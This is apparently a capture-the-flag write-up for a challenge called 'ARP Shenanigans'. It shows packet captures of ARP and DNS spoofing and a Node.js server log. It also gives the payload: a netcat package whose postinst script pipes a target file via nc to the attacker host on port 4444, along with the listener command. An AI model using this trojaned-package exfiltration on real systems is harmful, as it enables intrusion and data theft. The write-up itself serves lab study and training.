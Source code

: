 # Objective 9: ARP Shenanigans

To be completed


Capture of ARP spoofing success with following DNS query:

    15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`

Capture of ARP and DNS spoofing with following HTTP request:

    17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
    17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
    17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
    17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
    17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
    17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0

A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package netcat-traditional_1.10-41.1ubuntu1_amd64.deb was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the attacking host, which has to run the command

    nc -lvp 4444 > text
to receive the text.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUyNDU2NDY5OSwtODc4MzkyMjE2LDUxND
IwOTE1OV19
-->